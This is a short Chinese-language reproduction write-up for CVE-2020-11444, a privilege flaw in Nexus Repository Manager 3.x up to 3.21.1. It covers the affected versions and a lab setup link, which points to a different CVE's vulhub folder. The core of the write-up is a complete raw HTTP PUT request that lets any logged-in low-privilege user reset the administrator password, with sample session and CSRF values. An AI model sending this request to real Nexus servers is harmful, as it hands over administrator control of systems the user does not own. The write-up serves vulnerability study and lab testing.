 # 

# Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

```
Nexus  3.x OSS / Pro <= 3.21.1
```

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204



## 漏洞复现

漏洞触发需要任意账户权限

![](./images/202202091858261.png)



登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码



```plain
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://139.198.174.173:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

返回204则修改成功



![](./images/202202091858448.png)
